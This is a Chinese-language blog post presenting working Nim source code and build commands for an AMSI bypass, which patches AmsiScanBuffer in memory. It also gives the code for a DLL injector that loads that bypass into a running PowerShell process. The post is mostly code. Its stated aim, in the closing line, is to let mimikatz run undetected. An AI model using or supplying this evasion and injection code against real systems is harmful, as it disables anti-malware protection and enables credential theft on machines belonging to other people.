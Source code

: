 # AMSI 绕过（nim学习系列）

AMSI(Anti-Malware Scan Interface)，即反恶意软件扫描接口，在win10和server2016上默认安装。如在使用mimikatz的powershell版时候会遇到错误（仅输入"Invoke-Mimikatz"字符串都被拦截）。

![截图](https://files-cdn.cnblogs.com/files/StudyCat/mimikatz0.bmp)

### 实现过程

不废话，直接上代码。我们将 byt3bl33d3r 的代码 [amsi_patch_bin.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/amsi_patch_bin.nim) 编成 dll，然后注入 powershell 进程，实现 amsi bypass。

#### amsiBypass.nim

编译：nim c --app:lib --nomain --cpu=amd64 -d:release amsiBypass.nim

``` amsiBypass.nim
#[
    Author: StudyCat
    Blog: https://www.cnblogs.com/studycat
    Github: https://github.com/StudyCat404/myNimExamples
    License: BSD 3-Clause
    Referer: https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/amsi_patch_bin.nim
]#
import winim/lean
import strformat
import dynlib

when defined amd64:
    #echo "[*] Running in x64 process"
    const patch: array[6, byte] = [byte 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3]
elif defined i386:
    #echo "[*] Running in x86 process"
    const patch: array[8, byte] = [byte 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00]

proc PatchAmsi(): bool =
    var
        amsi: LibHandle
        cs: pointer
        op: DWORD
        t: DWORD
        disabled: bool = false

    # loadLib does the same thing that the dynlib pragma does and is the equivalent of LoadLibrary() on windows
    # it also returns nil if something goes wrong meaning we can add some checks in the code to make sure everything's ok (which you can't really do well when using LoadLibrary() directly through winim)
    amsi = loadLib("amsi")
    if isNil(amsi):
        echo "[X] Failed to load amsi.dll"
        return disabled

    cs = amsi.symAddr("AmsiScanBuffer") # equivalent of GetProcAddress()
    if isNil(cs):
        echo "[X] Failed to get the address of 'AmsiScanBuffer'"
        return disabled

    if VirtualProtect(cs, patch.len, 0x40, addr op):
        #echo "[*] Applying patch"
        copyMem(cs, unsafeAddr patch, patch.len)
        VirtualProtect(cs, patch.len, op, addr t)
        disabled = true

    return disabled

proc NimMain() {.cdecl, importc.}

proc DllMain(hinstDLL: HINSTANCE, fdwReason: DWORD, lpvReserved: LPVOID) : BOOL {.stdcall, exportc, dynlib.} =
  NimMain()
  
  if fdwReason == DLL_PROCESS_ATTACH:
    discard PatchAmsi()
    
  return true
```

#### dll 注入

这里主要参考了 https://github.com/saeedirha/DLL-Injector 的 C 语言代码进行修改。

编译：nim c --cpu:amd64 -d:release --opt:size dllInjector.nim

首先，编译 amsiBypass.nim 成 dll 文件。然后，启动一个 powershell 进程，通过任务管理器获取 PID。最后使用以下命令将 amsiBypass.dll 注入 powershell 进程，即可绕过 amsi，效果见截图。

使用：dllInjector.exe 14144 C:\Users\dell\Desktop\test\amsiBypass.dll

dllInjector.nim

``` dllInjector.nim
#[
    Author: StudyCat
    Blog: https://www.cnblogs.com/studycat
    Github: https://github.com/StudyCat404/myNimExamples
    License: BSD 3-Clause
    Referer: https://github.com/saeedirha/DLL-Injector
]#
import winim/lean
import dynlib
import os
import strutils

when defined(windows):
    let dllPath = paramStr(2)  #绝对路径    
    let pid = paramStr(1).parseInt() #powershell.exe 进程 pid
    
    let hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, cast[DWORD](pid))   
    let alloc = VirtualAllocEx(hProcess, nil, dllPath.len, MEM_COMMIT, PAGE_EXECUTE_READWRITE)
    
    let IsWriteOK = WriteProcessMemory(hProcess, alloc, unsafeaddr dllPath[0], dllPath.len, nil)
    if IsWriteOK == 0:
        echo "Fail to write in Target Process memory"
        quit(QuitFailure)
           
    let lib = loadLib("kernel32.dll")
    if lib == nil:
        echo "Error loading library"
        quit(QuitFailure)


    let lpthreadStartRoutinefp = cast[LPTHREAD_START_ROUTINE](lib.symAddr("LoadLibraryA"))
    if lpthreadStartRoutinefp == nil:
        echo "Error loading 'LoadLibraryA' function from library"
        quit(QuitFailure)
    
    var dWord: DWORD
    CreateRemoteThread(hProcess, nil, 0, lpthreadStartRoutinefp, alloc, 0 ,addr dWord)    

    echo "[+]DLL Successfully Injected"
    
    unloadLib(lib)
```

现在可以放心使用 mimikatz 了。

![截图](https://files-cdn.cnblogs.com/files/StudyCat/mimikatz.bmp)